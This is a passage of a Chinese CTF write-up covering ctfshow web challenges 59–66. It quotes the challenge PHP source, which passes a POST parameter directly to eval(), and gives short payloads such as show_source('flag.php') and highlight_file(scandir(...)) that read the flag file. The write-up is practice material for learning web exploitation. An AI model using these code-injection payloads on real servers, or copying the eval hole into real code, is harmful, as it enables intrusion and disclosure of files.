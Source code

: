 继续尝试

```cobol
c=highlight_file(scandir(dirname(__FILE__))[2]);
```

这个方法还是可以

发现题目是一样的 我也不懂

```cobol
c=show_source('flag.php');
```

## web60

```cobol
<?php
 
/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 
*/
 
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
} 
```

发现还是一样的

## web62-65

全是一样的。。。。

## web66  show_source被禁用

```cobol
<?php
 
/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 
*/
 
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
```